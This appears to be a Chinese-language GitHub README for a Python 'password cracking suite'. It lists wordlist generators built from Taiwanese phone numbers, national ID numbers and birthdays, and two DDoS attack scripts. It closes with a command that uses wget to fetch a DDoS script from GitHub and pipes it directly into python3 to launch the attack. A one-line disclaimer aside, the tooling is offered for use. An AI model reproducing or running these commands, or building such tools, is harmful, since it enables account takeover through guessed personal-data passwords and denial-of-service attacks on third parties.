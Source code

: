# 密碼破解套件
此腳本基於Python 使用前請先確定電腦上有安裝Python

## 注意事項
- 請先安裝Python
- 請不要拿去幹壞事
- 此腳本非常吃電腦資源
- 有bug請開issues通知
- 希望增加功能也請在issues建議

## 已完成功能(密碼生成器)
- 台灣手機電話號碼(09xxxxxxxx) 
- 台灣"無區碼"市話號碼(xxxx-xxxx) 
- 台灣"含區碼"市話號碼((xx)xxxx-xxxx)
- 台灣國際號碼(886xxxxxxxxx) 
- 台灣身份證字號(Xxxxxxxxxx)
- 亂數(123....) 
- 民國生日(xx.xx.xx) 
- 西元生日(xxxx.xx.xx) 

## 已完成功能(攻擊)
- 以下兩個版本的攻擊原理不一樣
- DDOS攻擊第一版(By:Andysun06)
- DDOS攻擊第二版(By:ChengChinHsia)

## 親自部署攻擊
```js
wget -qO-  https://raw.githubusercontent.com/ChengChinHsia-Pig/pwd-gen/main/attacks/DDOS-2.py | python3 -
```
> Last Update:2022/09/11
